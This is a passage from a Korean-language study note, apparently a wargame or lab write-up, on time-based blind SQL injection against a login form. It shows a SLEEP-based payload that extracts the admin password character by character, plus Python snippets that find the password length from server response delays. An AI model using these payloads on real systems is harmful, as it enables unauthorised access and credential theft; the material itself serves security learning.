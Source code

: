 비밀번호 길이를 늘려가며 3초 지연이 되는 순간을 찾으면 비밀번호 길이를 찾을 수 있음

|

|

### 2. 비밀번호 찾기

---

```sql
admin' and ASCII(SUBSTRING(password, 1, 1)) = 32 and SLEEP(3) -- 1
```

마찬가지로 sleep을 활용하여 지연되는 순간을 찾으면 됨

|

|

### 자동화 코드: find_password_length

---

Boolean base의 코드에서 조금만 바꾸면 됨

1. sleep_time 추가
    
    너무 짧게 설정하면 의도와 다르게 나올 가능성이 있음
    
    ```python
    sleep_time = 2
    ```
    
    |
    
2. payload 수정

    `sleep()` 추가
    
    ```python
    payload= {"username": f"{username}' AND LENGTH(password) = {length} and sleep({sleep_time}) -- 1", "password": f"{password}"}
    ```
    
    |
    
3. 성공 로직 수정
    
    ```python
    if res.elapsed.total_seconds() > sleep_time:
    	return length
    ```

    설정한 sleep_time보다 서버 응답 시간이 클 때 `length`(비밀번호 길이) 반환
    